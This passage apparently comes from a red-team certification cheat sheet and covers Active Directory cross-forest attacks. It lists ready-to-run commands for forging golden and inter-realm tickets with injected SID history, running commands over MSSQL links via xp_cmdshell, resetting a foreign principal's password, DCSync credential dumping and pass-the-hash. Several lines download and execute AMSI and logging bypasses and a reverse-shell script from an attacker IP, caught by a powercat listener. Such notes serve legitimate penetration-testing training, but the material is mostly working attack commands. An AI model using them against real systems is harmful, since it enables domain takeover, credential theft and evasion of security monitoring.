```powershell
winrs -r:dc.domain.local cmd
C:\Users\Public\BetterSafetyKatz.exe "kerberos::golden /user:Administrator /domain:<domain> /sid:<SID> /rc4:<hash> /service:krbtgt /target:domain.local /sids:S-1-5-21-4066061358-3942393892-617142613-519 /ticket:C:\Users\Public\sharedwithdomain.kirbi" "exit"
C:\Users\Public\Rubeus.exe asktgs /ticket:C:\Users\Public\sharedwithdomain.kirbi /service:CIFS/dc.domain.local /dc:dc.domain.local /ptt
```

**With the CIFS service we can access the share**:
```powershell
dir \\dc.domain.local\eushare
```

> Access the target forest using PowerShell Remoting


**Check if SIDHistroy is enabled for the trust between the 2 Forests**:
```powershell
echo F | xcopy C:\AD\Tools\InviShell\InShellProf.dll \\dc.domain.local\C$\Users\Public\InShellProf.dll /Y
echo F | xcopy C:\AD\Tools\InviShell\RunWithRegistryNonAdmin.bat \\dc.domain.local\C$\Users\Public\RunWithRegistryNonAdmin.bat /Y
winrs -r:dc.domain.local cmd
C:\Users\Public\RunWithRegistryNonAdmin.bat
```

**Check if there are any groups with SID>1000**:
```powershell
Get-ADGroup -Filter 'SID -ge "S-1-5-21-4066061358-3942393892-617142613-1000"' -Server domain.local
```


**Create an inter-realm ticket and Inject the SIDHistory**:
```powershell
C:\Users\Public\BetterSafetyKatz.exe "kerberos::golden /user:Administrator /domain:domain.local /sid:S-1-5-21-3657428294-2017276338-1274645009 /rc4:<hash> /service:krbtgt /target:domain.local /sids:S-1-5-21-4066061358-3942393892-617142613-1103 /ticket:C:\Users\Public\domainnet.kirbi" "exit"
```

**Request a TGS for HTTP**:
```powershell
C:\Users\Public\Rubeus.exe asktgs /ticket:C:\Users\Public\domainnet.kirbi /service:HTTP/domain-net.domain.local /dc:dc.domain.local /ptt
winrs -r:domain-net.domain.local cmd
whoami /groups
```

   </div>
  </details>

  <details>
    <summary>MSSQL</summary>
    <div class="content" markdown="1">

**Enumerate database links**:
```powershell
Import-Module .\PowerupSQL-master\PowerupSQL.psd1
Get-SQLInstanceDomain | Get-SQLServerInfo -Verbose
Get-SQLServerLink -Instance us-mssql.domain.local -Verbose
Get-SQLServerLinkCrawl -Instance us-mssql -Verbose
Get-SQLServerLinkCrawl -Instance us-mssql -Query 'exec master..xp_cmdshell ''whoami'''
```

**Open a Listener**:
```powershell
. .\powercat.ps1
powercat -l -v -p 443 -t 1000
Get-SQLServerLinkCrawl -Instance us-mssql -Query 'exec master..xp_cmdshell ''powershell -c "iex (iwr -UseBasicParsing http://192.168.100.X/sbloggingbypass.txt);iex (iwr -UseBasicParsing http://192.168.100.X/amsibypass.txt);iex (iwr -UseBasicParsing http://192.168.100.X/Invoke-PowerShellTcpEx.ps1)"'''
```

**Enable RPC Out and xp_cmdshell with SA permission**:
```powershell
Invoke-SqlCmd -Query "exec sp_serveroption @server='db-sqlsrv', @optname='rpc', @optvalue='TRUE'"
Invoke-SqlCmd -Query "exec sp_serveroption @server='db-sqlsrv', @optname='rpc out', @optvalue='TRUE'"
Invoke-SqlCmd -Query "EXECUTE ('sp_configure ''show advanced options'',1;reconfigure;') AT ""db-sqlsrv"""
Invoke-SqlCmd -Query "EXECUTE('sp_configure ''xp_cmdshell'',1;reconfigure') AT ""db-sqlsrv"""
```

**Now Try to execute commands recursively again**:
```powershell
Get-SQLServerLinkCrawl -Instance us-mssql -Query 'exec master..xp_cmdshell ''whoami'''
```

**Execute commands in a particular link database**:
```powershell
Get-SQLServerLinkCrawl -Instance us-mssql -Query 'exec master..xp_cmdshell ''powershell -c "iex (iwr -UseBasicParsing http://192.168.100.x/sbloggingbypass.txt);iex (iwr -UseBasicParsing http://192.168.100.x/amsibypass.txt);iex (iwr -UseBasicParsing http://192.168.100.x/Invoke-PowerShellTcpEx.ps1)"''' -QueryTarget db-sqlsrv
```

   </div>
  </details>

  <details>
    <summary>Foreign Security Principals (FSPs)</summary>
    <div class="content" markdown="1">
 


```powershell
iex (New-Object Net.WebClient).DownloadString('http://192.168.100.x/PowerView.ps1')
Note: Make sure to bypass AMSI before executing powershell commands
Get-ForestTrust
```

**Search for**:

- TrustType: Forest 
- TrustDirection: Bidirectional

```powershell
Find-InterestingDomainAcl -ResolveGUIDs -Domain dbvendor.local
```

> See if any *IdentityReferenceName* has *ActiveDirectoryRights* (GenericAll) to any *ObjectDN*

```powershell
Set-DomainUserPassword -Identity dbxsvc -AccountPassword (ConvertTo-SecureString 'Password@123' -AsPlainText -Force) -Domain dbvendor.local –Verbose
```

**Enumerate FSPs**:
```powershell
Find-ForeignGroup –Verbose
```

**Get-DomainUser**:
```powershell
Get-DomainUser -Domain dbvendor.local | ?{$_.ObjectSid -eq 'S-1-5-21-569087967-1859921580-1949641513-4101'}
```

**Accessing with WINRS**:
```powershell
winrs -r:db-dc.db.local -u:dbvendor\dbxsvc -p:Password@123 "whoami"
```

**Accessing with PowerShell Remote**:
```powershell
$passwd = ConvertTo-SecureString 'Password@123' -AsPlainText -Force
$creds = New-Object System.Management.Automation.PSCredential ("dbvendor\dbxsvc", $passwd)
$dbdc = New-PSSession -Computername db-dc.db.local -Credential $creds
Invoke-Command -scriptblock{whoami;hostname} -Session $dbdc
```


   </div>
  </details>

  <details>
    <summary>PAM Trust</summary>
    <div class="content" markdown="1">
 


**Enumerate Foreign Security Principals**:
```powershell
Get-ADObject -Filter {objectClass -eq "foreignSecurityPrincipal"} -Server domain.local
```

**Find out which group DA it is a member of**:
```powershell
Get-ADGroup -Filter * -Properties Member -Server domain.local | ?{$_.Member -match 'S-1-5-21-2781415573-3701854478-2406986946-500'}
```

> In this case the DA is a member of the built-in administrators group on the target forest

**So we need to grab a DA access**: 
```powershell
C:\AD\Tools\Rubeus.exe asktgt /domain:<domain> /user:administrator /aes256:<hash> /dc:<dc> /createnetonly:C:\Windows\System32\cmd.exe /show /ptt
echo F | xcopy C:\AD\Tools\InviShell\InShellProf.dll \\dc.domain.local\C$\Users\Public\InShellProf.dll /Y
echo F | xcopy C:\AD\Tools\InviShell\RunWithRegistryNonAdmin.bat \\dc.domain.local\C$\Users\Public\RunWithRegistryNonAdmin.bat /Y
winrs -r:dc.domain.local cmd
C:\Users\Public\RunWithRegistryNonAdmin.bat
```

**Check if PAM trust is enabled**:
```powershell
Get-ADTrust -Filter {(ForestTransitive -eq $True) -and (SIDFilteringQuarantined -eq $False)}
```

**Search for**:

- ForestTransitive : True
- SIDFilteringForestAware : False
- the DistinguishedName


**Use the privileges of DA to extract credentials of DA of the target Forest**:
```powershell
C:\AD\Tools\SafetyKatz.exe "lsadump::dcsync /user:domain\Administrator /domain:domain.local" "exit"
C:\AD\Tools\Rubeus.exe asktgt /domain:domain.local /user:administrator /aes256:<hash> /dc:<dc> /createnetonly:C:\Windows\System32\cmd.exe /show /ptt
echo F | xcopy C:\AD\Tools\InviShell\InShellProf.dll \\dc.domain.local\C$\Users\Public\InShellProf.dll /Y
echo F | xcopy C:\AD\Tools\InviShell\RunWithRegistryNonAdmin.bat \\dc.domain.local\C$\Users\Public\RunWithRegistryNonAdmin.bat /Y
winrs -r:dc.domain.local cmd
C:\Users\Public\RunWithRegistryNonAdmin.bat
```

**Enumerate other Forests**:
```powershell
Get-ADTrust -Filter {(ForestTransitive -eq $True) -and (SIDFilteringQuarantined -eq $False)} -Server production.local
```

**Search for**:

- ForestTransitive : True
- SIDFilteringForestAware : True


**Check the membership of Shadow Security Principals**:
```powershell
Get-ADObject -SearchBase ("CN=Shadow Principal Configuration,CN=Services," + (Get-ADRootDSE).configurationNamingContext) -Filter * -Properties * | select Name, member, msDS-ShadowPrincipalSid | fl
```

**Obtain the IP of Forest**:
```powershell
Get-DnsServerZone -ZoneName production.local |fl *
```

**Modify WSMan Trustedhosts property**:
```powershell
Note: Run from an elevated shell
Set-Item WSMan:\localhost\Client\TrustedHosts * -Force
```

**Use PowerShell Remoting**:
```powershell
C:\AD\Tools\SafetyKatz.exe "sekurlsa::opassth /user:administrator /domain:domain.local /ntlm:<hash> /run:powershell.exe" "exit"
Enter-PSSession 192.168.102.1 -Authentication NegotiateWithImplicitCredential
```

   </div>
  </details>

  <details>
    <summary>Mindmaps</summary>
    <div class="content" markdown="1">
 

AD Mindmap:

![Alt text](/assets/images/posts/crte/6.png){: .align-center}

AD Recommendations:

![Alt text](/assets/images/posts/crte/7.png){: .align-center}

DACL:

![Alt text](/assets/images/posts/crte/8.png){: .align-center}

Bypass AV:

![Alt text](/assets/images/posts/crte/9.png){: .align-center}

Bloodhound Collector:

![Alt text](/assets/images/posts/crte/10.png){: .align-center} 

  </div>
  </details>
</div>

